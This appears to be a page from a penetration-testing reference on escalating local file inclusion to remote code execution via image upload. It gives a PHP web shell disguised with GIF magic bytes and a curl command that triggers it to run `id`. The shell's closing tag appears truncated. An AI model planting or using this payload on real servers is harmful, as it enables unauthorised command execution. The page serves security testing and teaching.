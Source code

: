 # file upload

## Image Upload

> [!TIP]
> The prerequisite for this method is to be able to [upload a file](../../unrestricted-file-upload.md).

```bash
# GIF8 is for magic bytes
echo 'GIF8<?php system($_GET["cmd"]); ?' > shell.gif

curl --user-agent "PENTEST" "$URL/?parameter=/path/to/image/shell.gif&cmd=id"
```

> [!TIP]
> Other LFI to RCE via file upload methods may be found later on the chapter [LFI to RCE (via php wrappers)](file-upload.md#via-php-wrappers-and-streams).
